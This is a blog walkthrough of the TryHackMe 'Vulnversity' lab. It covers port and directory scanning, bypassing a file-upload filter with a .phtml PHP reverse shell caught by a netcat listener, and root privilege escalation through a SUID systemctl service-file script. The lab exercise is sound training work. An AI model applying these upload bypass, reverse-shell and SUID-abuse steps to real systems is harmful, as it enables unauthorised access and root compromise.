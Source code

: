 ```yaml
---
date: 2020-04-30 11:50:55
layout: post
title: "Vulnversity Try Hack Me Walkthrough"
subtitle:
description: Today we will be doing Vulnversity, a boot2root machine from Try Hack Me. Vulnversity stands for Vuln University (I Guess).
image: /assets/img/uploads/vulnversity/vulnversity.jpg
optimized_image: /assets/img/uploads/vulnversity/vulnversity.jpg
category: walkthrough
tags: tryhackme boot2root
author: madhavmehndiratta
paginate: false
keywords: vulnversity, vulnversity try hack me, vulnversity walkthrough, infosec articles, tryhackme walkthrough, vulnversity writeup
---
```


Today we will be doing Vulnversity, a boot2root machine from Try Hack Me. This box covers some basics of enumeration, exploiting the file upload vulnerability and then exploiting SUID bits. Lets Begin!

### Enumerating and Initial Access

We begin our enumeration by running a port scan with Nmap, checking default scripts.

```r
m1m3@kali:~$ nmap -sV -oA nmap/vulnversity 10.10.160.174

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.160.174 
Host is up (0.26s latency).      
Not shown: 994 closed ports                                              
PORT     STATE SERVICE     VERSION                                                             
21/tcp   open  ftp         vsftpd 3.0.             
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey                                                                  
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA) 
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 97.26 seconds
```

We see an Apache webserver running on port 3333. Let's fire up our browser and see what we have there.

<center><br>
<img src="/assets/img/uploads/vulnversity/port3333.png">
</center>

Next, we will be running a gobuster scan searching for the directories.

```r
m1m3@kali:~$ gobuster dir -u http://10.10.160.174:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.log

===============================================================      
Gobuster v3.0.1                                          
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_) 
===============================================================                      
[+] Url:            http://10.10.160.174:3333 
[+] Threads:        10               
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt              
[+] Status codes:   200,204,301,302,307,401,403  
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
Starting gobuster
===============================================================
/images (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
/internal (Status: 301)
```

We find some directories. Opening the '/internal/' directory, provides us with the some upload functionality!

<center><br>
<img src="/assets/img/uploads/vulnversity/internal.png">
</center>

 The first thing that we need to check in upload options is the extension type. To fuzz the extensions we will use BurpSuite. It has a nice feature called intruder which can do the job in an automated fashion.

First we need to upload a file (doesn’t really matter which file) and capture the request with BurpSuite proxy. After that right click on the request and choose send to intruder. Click the "Positions" tab now, find the filename and "Add §" to the extension. It should look like so: 

<center><br>
<img src="/assets/img/uploads/vulnversity/request.png">
</center>


Now add the extensions to the list in the Payload tab and disable the <i>payload encoding</i> option.

<center><br>
<img src="/assets/img/uploads/vulnversity/intruder.png">
</center>



As we can see .phtml returns 'Success'. This is the extension we will be using with our webshell.
<center><br>
<img src="/assets/img/uploads/vulnversity/attack.png">
</center>

I will we using the webshell from <a href="https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php"> pentest monkey,</a> you can use any shell you like, change the IP and port in the shell and upload it to the server. After uploading, we can find it at /internal/uploads/.

```r
m1m3@kali:~$ nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.8.5.61] from (UNKNOWN) [10.10.160.174] 43684
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:15:00 up  2:29,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@vulnuniversity:/$ 
```

An we managed to get into the server. Now we can read the user.txt!

```r
www-data@vulnuniversity:/$ cd /home/bill
cd /home/bill
www-data@vulnuniversity:/home/bill$ wc -c user.txt
wc -c user.txt
33 user.txt
www-data@vulnuniversity:/home/bill$ 
```

### Privilege Escalation
This task is a little bit challenging. For this we need to exploit the SUID bits. Let's first look for SUID bit set.

```r
www-data@vulnuniversity:/bin$ find / -user root -perm -4000 -exec ls -ldb {} \; | grep -v proc
...
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 659856 Feb 13  2019 /bin/systemctl
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
...
```

Looking at the output of the command, we can see that systemctl had a suid bit active. Searching on the <a href="https://gtfobins.github.io/gtfobins/systemctl/">GTFO Bins,</a> I found that we can exploit systemctl for privilege escalation. Copy and execute the following script into /bin directory.

```sh
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

This will write the output /root/root.txt into the /tmp. If we see in the /tmp directory, we can see a file named output, which is our flag!

```r
www-data@vulnuniversity:/bin$ wc -c /tmp/output
wc -c /tmp/output
33 /tmp/output
www-data@vulnuniversity:/bin$ 
```

That’s it! Thanks for reading! Make sure to stay tuned for more upcoming Try Hack Me walkthroughs!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://swadeillustration.com">Swade.</a>